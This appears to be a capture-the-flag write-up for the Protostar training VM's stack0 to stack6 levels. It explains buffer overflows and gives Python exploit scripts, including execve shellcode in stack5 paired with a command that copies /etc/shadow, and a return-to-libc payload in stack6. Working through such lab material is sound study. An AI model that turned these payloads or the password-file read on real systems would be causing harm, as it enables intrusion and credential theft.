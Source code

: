 # Protostar

## Stack0

The source code shows that there is a significant stack overflow. When the program recvievs input from the user, gets() will not check the length of the buffer.
The mission is that overwrite the variable named modified, the address of which is just 64bytes behind the address of the variable named buffer.

```ASM
 080483f4 <main>:
 80483f4:       55                      push   %ebp
 80483f5:       89 e5                   mov    %esp,%ebp
 80483f7:       83 e4 f0                and    $0xfffffff0,%esp
 80483fa:       83 ec 60                sub    $0x60,%esp
 80483fd:       c7 44 24 5c 00 00 00    movl   $0x0,0x5c(%esp)
 8048404:       00
 8048405:       8d 44 24 1c             lea    0x1c(%esp),%eax
 8048409:       89 04 24                mov    %eax,(%esp)
 804840c:       e8 fb fe ff ff          call   804830c <gets@plt>
 8048411:       8b 44 24 5c             mov    0x5c(%esp),%eax
 8048415:       85 c0                   test   %eax,%eax
 8048417:       74 0e                   je     8048427 <main+0x33>
 8048419:       c7 04 24 00 85 04 08    movl   $0x8048500,(%esp)
 8048420:       e8 07 ff ff ff          call   804832c <puts@plt>
 8048425:       eb 0c                   jmp    8048433 <main+0x3f>
 8048427:       c7 04 24 29 85 04 08    movl   $0x8048529,(%esp)
 804842e:       e8 f9 fe ff ff          call   804832c <puts@plt>
 8048433:       c9                      leave
 8048434:       c3                      ret

```

We could calculate the offset will be 0x40 = 64, since the 
&buffer = 0x1c(%esp);
&modified = 0x5c(%esp);

The exploit python code is 

```python
#!/usr/bin/env python

SH='A'*64+'XXXX'
print(SH)
```

## Stack1

The exploit python code could be slightly modified for stack1

```python
#!/usr/bin/env python

SH='A'*64+'dcba'
print(SH)
```

## Stack2

The exploit python code is:

```python
#!/usr/bin/env python
import sys

SH='A'*64+'\x0a\x0d\x0a\x0d'
sys.stdout.write(SH)
```

And the stack overflow could be constructed as :

```shell
 env GREENIE="`python hack.py`" /opt/protostar/bin/stack2
```

## Stack3

The disasmble code is :

```asm
08048438 <main>:
 8048438:       55                      push   %ebp
 8048439:       89 e5                   mov    %esp,%ebp
 804843b:       83 e4 f0                and    $0xfffffff0,%esp
 804843e:       83 ec 60                sub    $0x60,%esp
 8048441:       c7 44 24 5c 00 00 00    movl   $0x0,0x5c(%esp)
 8048448:       00
 8048449:       8d 44 24 1c             lea    0x1c(%esp),%eax
 804844d:       89 04 24                mov    %eax,(%esp)
 8048450:       e8 db fe ff ff          call   8048330 <gets@plt>
 8048455:       83 7c 24 5c 00          cmpl   $0x0,0x5c(%esp)
 804845a:       74 1b                   je     8048477 <main+0x3f>
 804845c:       b8 60 85 04 08          mov    $0x8048560,%eax
 8048461:       8b 54 24 5c             mov    0x5c(%esp),%edx
 8048465:       89 54 24 04             mov    %edx,0x4(%esp)
 8048469:       89 04 24                mov    %eax,(%esp)
 804846c:       e8 df fe ff ff          call   8048350 <printf@plt>
 8048471:       8b 44 24 5c             mov    0x5c(%esp),%eax
 8048475:       ff d0                   call   *%eax
 8048477:       c9                      leave
 8048478:       c3                      ret
```
I plan to overwrite the content of the pointor named fp with the value of win(), the address of which is 0x08048424.

The following python code will exploit the program at the level.

```python
#!/usr/bin/env python
import sys

SH='A'*64+'\x24\x84\x04\x08'
sys.stdout.write(SH)
```

## stack4

I used `strace -i` to find out which offset is the return address, then I constructed the attack vector.

```python
#!/usr/bin/env python
import sys
padding='BBBBCCCCDDDD'
ret_addr='\xf4\x83\x04\x08'

SH='A'*64+padding+ret_addr

sys.stdout.write(SH)
```

## stack5

In this level, I found the value of esp and ebp maybe different between normal  execution and gdb mode. Also /bin/sh will read from stdin, but which was redirected by command. And strace is a good tool to debug.

`python stack5.py | /opt/protostar/bin/stack5`

```python
#!/usr/bin/env python

import sys

SHELL_CODE = "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
NOP= "\x90"

ret_addr = "\xa0\xf7\xff\xbf" # 0xbffff7a0
old_ebp = "\x48\xf8\xff\xbf" #0xbffff848

buff_size = 64

# NOP shell_code NOP old_ebp ret_addr
SH = NOP*32 + SHELL_CODE
SH = SH + NOP*(buff_size-len(SH))
# and    $0xfffffff0,%esp
SH = SH + NOP*8 + old_ebp + ret_addr
# add return char for gets()
SH = SH + "\n"

sys.stdout.write(SH)
sys.stdout.flush()
#write cmd
cmd="id; cat /etc/shadow > shadow.txt"
sys.stdout.write(cmd+"\n")
sys.stdout.flush()

```

# stack6

Because the buffer of stack starts with 0xbfXXXXXX, it will be unable to put the shellcode on the stack.

The following code shows how return into libc works. Please be careful about the structure of the payload.
buffer | old_ebp | system_addr | ret_addr_after_system | parameters

```python
#!/usr/bin/env python

import sys

NOP= "\x90"

ret_addr = "\xb0\xff\xec\xb7" # 0xb7ecffb0 system
old_ebp = "\xff\xff\xff\xbf"  # 0xbfffffff
para = "\x8c\xf7\xff\xbf" # 0xbffff78c
buff_size = 0x4c
cmd="/usr/bin/id; echo "
exit_addr = "\xc0\x60\xec\xb7" # 0xb7ec60c0 exit
exit_para = "\xff\xff\xff\xff"
# cmd padding  old_ebp ret_addr
SH = cmd
SH = SH + 'A'*(buff_size-len(SH))
SH = SH + old_ebp + ret_addr + exit_addr + para
# add return char for gets()
SH = SH + "\n"

sys.stdout.write(SH)
sys.stdout.flush()
```

